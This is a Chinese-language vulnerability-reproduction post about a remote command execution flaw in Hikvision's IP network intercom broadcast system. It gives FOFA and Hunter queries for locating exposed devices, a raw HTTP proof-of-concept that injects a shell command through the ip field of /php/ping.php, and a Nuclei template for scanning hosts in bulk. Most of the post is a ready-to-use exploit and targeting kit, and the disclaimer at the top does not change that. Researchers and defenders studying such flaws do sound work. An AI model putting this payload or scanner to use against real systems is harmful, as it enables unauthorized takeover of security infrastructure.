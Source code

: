 # 原创
：  漏洞复现--海康威视IP网络对讲广播系统远程命令执行

# 漏洞复现--海康威视IP网络对讲广播系统远程命令执行

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

海康威视网络对讲广播系统是海康威视提供的安防解决方案的一部分，用于管理和实现对讲和广播功能。该产品存在远程命令执行漏洞，攻击者可通过此漏洞获取服务器权限。

### 二：漏洞影响版本

IP网络对讲广播系统

### 三：网络空间测绘查询

fofa<br/> `icon_hash="-1830859634"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8b446fce92fb9968477826842b07a8e6.jpeg"/><br/> hunter<br/> `web.icon=="e854b2eaa9e4685a95d8052d5e3165bc"`

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/15bef5344678f41c74f3498874c82161.jpeg"/><br/> poc:

```
POST /php/ping.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 46
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

jsondata%5Btype%5D=123&amp;jsondata%5Bip%5D=whoami

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a6161e73be55bbf7fb470153b0408448.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/13446596b1ec8ff62661d429445a6066.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/7eb282066ce99c07d8d08989ae176e1b.jpeg"/>

### 批量检测

```
id: Hikvision-network-intercom-broadcasting-system-RCE

info:
  name: Hikvision-network-intercom-broadcasting-system-RCE
  author: 芝士土拨鼠
  severity: high

requests:
  - raw:
      - |-
        POST /php/ping.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
        Content-Length: 46
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Connection: close
        Content-Type: application/x-www-form-urlencoded
        X-Requested-With: XMLHttpRequest

        jsondata%5Btype%5D=123&amp;jsondata%5Bip%5D=whoami

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - administrator
          - root
      - type: status
        status:
          - 200

```
